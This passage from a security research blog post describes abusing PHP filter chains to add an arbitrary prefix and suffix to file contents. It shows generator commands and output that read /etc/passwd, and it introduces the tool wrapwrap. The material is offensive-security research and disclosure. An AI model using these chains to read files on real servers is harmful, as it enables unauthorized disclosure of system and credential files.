 After a few tweaks on the original script, we had it working:

```plain
$ ./php_filter_chain_generator.py --chain '<product><name>' --file='/etc/passwd'
[+] The following gadget chain will generate the following code : <product><name> (base64 value: PHByb2R1Y3Q+PG5hbWU+)
php://filter/convert.base64-encode|...|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|...|/resource=/etc/passwd
```

Which gives:

```plain
php> echo file_get_contents('php://filter/convert.base64-encode|...|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|...|/resource=/etc/passwd');
<product><name>cm9vdDp4OjA6MDpyb290Oi9... # b64 of /etc/passwd
```

We could now load any resource and make the PHP script display it!

This however begged the question: what would have happened if the developer checked for the return code of [the `xml_parse_into_struct()` function](https://www.php.net/manual/fr/function.xml-parse-into-struct.php)? In other words, what if we needed to provide **valid XML**? Or, what if the code used `json_decode()` instead?

Well, turns out you can actually use an oracle, which makes use of the limited PHP memory, to dump the file character by character. Check this [CTF solution](https://github.com/DownUnderCTF/Challenges_2022_Public/blob/main/web/minimal-php/solve/solution.py), or remsio's tool [here](https://github.com/synacktiv/php_filter_chains_oracle_exploit). This approach has, however, **downsides**: it is slow, does not allow you to dump big files, and is very hard on the server, as it'll try to allocate huge memory regions before erroring out, on each test.

Unsatisfied with the current state of the art, we started working on a solution: a way to add, in addition to an **arbitrary prefix**, an **arbitrary suffix** to any resource. This yielded a new tool, [wrapwrap](https://github.com/lexfo/wrapwrap), available on our Github.

![](assets/1703487247-9d24924d485c75f9a8b81f73867c82dc.png)

```plain
php> echo file_get_contents('php://filter/.../resource=/etc/passwd');
<product><name>root:x:0:0:root:/root:/bin/bash=0Adaemon...</name></product>
```

# Building wrapwrap

In this section, we'll describe the various approaches used to find the primitives that allowed to build the tool. For the sake of simplicity, we will refer to the contents of the resource provided to the filter chain (*i.e.* the value returned by the `resource` in `php://filter/.../resource=`) as the *file contents*, although the resource can be anything (`http://`, `ftp://`, *etc.*). Additionally, we'll refer to the base64 of such file contents as the *original base64*.
